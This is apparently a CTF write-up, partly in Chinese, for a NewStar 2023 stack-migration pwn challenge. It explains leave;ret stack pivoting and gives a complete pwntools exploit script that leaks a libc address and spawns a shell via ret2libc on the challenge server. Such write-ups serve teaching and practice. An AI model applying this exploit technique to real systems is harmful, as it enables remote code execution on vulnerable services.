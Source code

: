 ```yaml
---
title: newstar2023 week2 - stack migration
date: 2023/10/5 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`-2`(什么魔鬼命名), NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

这道题写明了需要栈迁移：从read的参数可知，我们只能写完`prev_rbp`后只剩8字节  
而当前栈上非常空旷，有0x50个字节可用！

## 前置知识

call的时候，会向栈内压入call下面1条指令，进入函数后，会压入rbp，然后
mov rbp, rsp  
leave执行mov rsp, rbp; pop rbp，ret执行pop rip如下图所示（建议配合exp）  
![legend](/assets/newstar2023/legend.jpg)

由于rbp间接影响返回地址，所以需要运行2次`leave;ret`，这时retAddr就写`leave;ret`的地址

## 思路

将栈迁移过来后，按ret2libc思路做即可

这里使用LibcSearcher，主要是方便本机调试，各位完全可以用提供的libc里的地址

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 25434)

# payload 1
sh.sendlineafter(b'name:', b'0'*7) # 这里不能输8个字符，否则换行符会落到下面导致payload 2发送出现问题
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16 # leak name addr; shift it to $rbp - 0x50

elf = ELF('minus2')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x401333
vulnAddr = 0x4011fb
retAddr = 0x4012ab
leaveRetAddr = 0x4012a9
# print(hex(space)) # for dbg

# payload 2
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))
# note that a \n will be left and we must comment the send below
# payload structure: [buf | space <- payload (0x48B) | prev_rbp | retAddr]

sh.recvuntil(b'soon!\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')

# sh.sendlineafter(b'name:', b'0'*5) # affected by the '\n' leftover; the name is '\n'
sh.recvuntil(b'you: ') # skip
space = int(sh.recvuntil(b'info')[:14], 16) + 16
# print(hex(space)) # for dbg

# payload 3
sh.sendlineafter(b'plz:', b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x28 + p64(space - 8) + p64(leaveRetAddr))

sh.interactive()
```

Done.
